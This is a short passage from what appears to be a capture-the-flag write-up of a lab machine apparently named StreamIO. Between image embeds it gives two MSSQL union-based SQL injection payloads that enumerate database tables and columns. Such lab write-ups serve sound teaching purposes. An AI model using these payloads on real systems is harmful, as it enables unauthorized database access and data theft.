 <figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
abcd'union select 1,name,id,4,5,6 from streamio..sysobjects where xtype='U';-- -
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we continue our way in:&#x20;

```
abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
```
